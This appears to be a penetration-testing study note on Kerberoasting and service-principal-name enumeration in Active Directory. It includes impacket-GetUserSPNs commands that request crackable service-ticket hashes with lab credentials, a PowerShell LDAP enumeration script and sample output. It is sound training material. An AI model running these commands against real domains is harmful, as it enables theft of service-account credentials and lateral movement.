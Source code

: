 #### Authenticated
Retrieve accounts that are vulnerable to this attack
```bash
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-ip DC1.scrm.local
```
Then we can extract the hashes as follows:
```bash
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-ip dc1.scrm.local -request
```
Examples:
[[Scramble#^b7b22a]]

An alternative to attacking a domain user account is to target so-called service accounts, which may also be members of high value groups.

When an application is executed, it must always do so in the context of an operating system user. If a user launches an application, that user account defines the context. However, services launched by the system itself use the context based on a _Service Account_.

In other words, isolated applications can use a set of predefined service accounts: _LocalSystem_, _LocalService_, and _NetworkService_. For more complex applications, a domain user account may be used to provide the needed context while still having access to resources inside the domain.

When applications like Exchange, SQL, or Internet Information Services (IIS) are integrated into Active Directory, a unique service instance identifier known as a _Service Principal Name_ (SPN) is used to associate a service on a specific server to a service account in Active Directory.

_Managed Service Accounts_, introduced with Windows Server 2008 R2, were designed for complex applications which require tighter integration with Active Directory. Larger applications like SQL and Microsoft Exchange often require server redundancy when running to guarantee availability, but Managed Service Accounts cannot support this. To remedy this, _Group Managed Service Accounts_ were introduced with Windows Server 2012, but this requires that domain controllers run Windows Server 2012 or higher. Because of this, many organizations still rely on basic Service Accounts.

By enumerating all registered SPNs in the domain, we can obtain the IP address and port number of applications running on servers integrated with the target Active Directory, limiting the need for a broad port scan.

Since the information is registered and stored in Active Directory, it is present on the domain controller. To obtain the data, we will again query the domain controller in search of specific service principal names.

While Microsoft has not documented a list of searchable SPN's there are extensive lists [available online](https://adsecurity.org/?page_id=183).

For example, let's update our PowerShell enumeration script to filter the _serviceprincipalname_ property for the string _*http*_, indicating the presence of a registered web server:

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="serviceprincipalname=*http*"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
}
```

This search returns a number of results, and although they could be further filtered, we can easily spot relevant information:

```
Name                    Value     
----                    -----     
givenname               {iis_service}    
samaccountname          {iis_service}  
cn                      {iis_service}    
pwdlastset              {131623309820953450}  
whencreated             {05/02/2018 19.03.02} 
badpwdcount             {0}  
displayname             {iis_service}  
lastlogon               {131624786130434963}   
samaccounttype          {805306368}   
countrycode             {0} 
objectguid              {201 74 156 103 125 89 254 67 146 40 244 7 212 176 32 11}  
usnchanged              {28741}  
whenchanged             {07/02/2018 12.08.56}   
name                    {iis_service}   
objectsid               {1 5 0 0 0 0 0 5 21 0 0 0 202 203 185 181 144 182 205 192 58 2
logoncount              {3}  
badpasswordtime         {0}  
accountexpires          {9223372036854775807}   
primarygroupid          {513}   
objectcategory          {CN=Person,CN=Schema,CN=Configuration,DC=corp,DC=com}  
userprincipalname       {iis_service@corp.com} 
useraccountcontrol      {590336}   
dscorepropagationdata   {01/01/1601 00.00.00} 
serviceprincipalname    {HTTP/CorpWebServer.corp.com} 
distinguishedname       

{CN=iis_service,OU=ServiceAccounts,OU=CorpUsers,DC=corp,DC=com
objectclass             {top, person, organizationalPerson, user} 
usncreated              {12919}                  
lastlogontimestamp      {131624773644330799}     
adspath                 {LDAP://CN=iis_service,OU=ServiceAccounts,OU=CorpUsers,DC=corp,DC=com}    
...    
```

Based on the output, one attribute name, _samaccountname_ is set to _iis_service_, indicating the presence of a web server and _serviceprincipalname_ is set to _HTTP/CorpWebServer.corp.com_. This all seems to suggest the presence of a web server.

Let's attempt to resolve "CorpWebServer.corp.com" with nslookup:

```
PS C:\Users\offsec.CORP> nslookup CorpWebServer.corp.com
Server:  UnKnown
Address:  192.168.1.110

Name:    corpwebserver.corp.com
Address:  192.168.1.110
```

> Listing 28 - Nslookup of serviceprincipalname entry

From the results, it's clear that the hostname resolves to an internal IP address, namely the IP address of the domain controller.

If we browse this IP, we find a default IIS web server as shown in Figure 2.

![Figure 2: IIS web server at CorpWebServer.corp.com](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/ad/63193fe21ac18b8b57f193ac10a42558-ad04f.png)



